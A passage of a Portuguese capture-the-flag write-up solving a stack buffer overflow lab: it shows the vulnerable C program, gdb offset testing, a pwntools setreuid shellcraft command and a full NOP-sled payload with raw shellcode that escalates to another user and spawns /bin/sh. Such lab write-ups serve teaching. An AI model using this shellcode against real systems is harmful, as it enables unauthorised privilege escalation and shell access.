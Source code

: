 ```bash
cat secret.txt.
```

>`omgyoudidthissocool!!`

## Desafio Buffer Overflow 2
Use o mesmo método que foi usado anteriormente para ler o conteúdo do aquivo secreto.

### Solução 
Podemos usar o mesmo método, mas precisamos modificar um pouco nosso shellcode.

Olhando para o binário, podemos ver que nosso buffer agora tem 154 de comprimento e está pré-preenchido com a palavra `doggo.`

```bash
#include <stdio.h>
#include <stdlib.h>

void concat_arg(char *string)
{
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    concat_arg(argv[1]);
}
```

Vamos verificar o comprimento necessário para nossa carga útil novamente usando o gdb. Adicionando nosso buffer (154), caracteres aleatórios (8) e endereço de retorno (6).

`run $(python -c "print('\x41'*168)")`

`run $(python -c "print('\x41'*169)")`

<img width="660" height="380" alt="image" src="https://github.com/user-attachments/assets/2dc1b441-3f34-4478-b939-1872a102bb9b" />

Logo, adicionaremos um pedaço de código para alterar o nosso id para o id do user3: `id -u user3`

<img width="398" height="54" alt="image" src="https://github.com/user-attachments/assets/23562f84-a3b7-47d0-b45b-53a674a59b87" />


Em seguida utilize o seguinte comando: 

`pwn shellcraft -f d amd64.linux.setreuid 1003`

Agora precisamos encontrar o início do nosso shellcode novamente, como fizemos da última vez.

`run $(python -c "print('\x90' * 100 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 9 + 'B' * 6)")`
